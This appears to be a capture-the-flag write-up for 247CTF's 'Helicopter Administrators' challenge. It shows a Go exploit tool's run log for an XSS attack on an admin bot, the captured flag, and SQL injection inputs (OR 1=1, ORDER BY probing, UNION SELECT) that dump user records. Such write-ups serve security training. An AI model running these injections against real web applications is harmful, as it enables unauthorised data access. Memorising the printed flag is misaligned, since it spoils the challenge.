 ### Helicopter Administrators Solved ( Rated Hard ) - 300 points

```
This applications administrators are very aggressive. They will immediately view any page you report. Can you trick them into disclosing data they shouldn't? 
```

1- Change 	`urlBase` varible to your generated url:

```go
string = "https://feef92c0eb0c14bf.247ctf.com
```

Then you are ready to go:
To get only the flag, run the following:


```go
*$ go run cmd/xss/main.go              
[+] Advanced XSS Challenge at 247ctf.com - HELICOPTER ADMINISTRATORS
[+] Cleaning stuff..
[+] Sending XSS Payload..
[+] Reporting the comment - Go Admin!..
[+] Parsing the HTML Page ..
[+] Sending Search data ..
{"message":[[1,2,3,4,5,"247CTF{c9355024736f1fdfa121e243c7024540}"]],"result":"success"}

*$ 
```

You also have interactive shell with the backend of the `sqlite`

```sh
*$ go run cmd/xss/main.go -h
Usage of /tmp/go-build950372382/b001/exe/main:
  -interactive
    	[+] Interactive to manual SQL injection!
exit status 2
*$ 
```

Lets try to interactive with the backend databse:

```bash
*$ go run cmd/xss/main.go --interactive
[+] Advanced XSS Challenge at 247ctf.com - HELICOPTER ADMINISTRATORS
[+] Cleaning stuff..
[+] Sending XSS Payload..
[+] Reporting the comment - Go Admin!..
[+] Parsing the HTML Page ..
[+] Sending Search data ..
#-> 1
{"message":[[1,"Michael Owens",14,22,3,"Sydney, Australia"]],"result":"success"}

#-> 1337 or 1=1;--
{"message":[[0,"Administrator",100,100,100,"New York, USA"],[1,"Michael Owens",14,22,3,"Sydney, Australia"],[2,"Alice Brock",72,132,28,"Amsterdam, Nederland"],[3,"Sally Alterman",3,1,0,"Berlin, Germany"]],"result":"success"}

#-> 1337 order by 1;--
{"message":[],"result":"success"}

#-> 1337 order by 7;--
{"message":"SQLite error: 1st ORDER BY term out of range - should be between 1 and 6","result":"error"}

#-> 1337 union select 1,2,3,4,5,6;--
{"message":[[1,2,3,4,5,6]],"result":"success"}

```

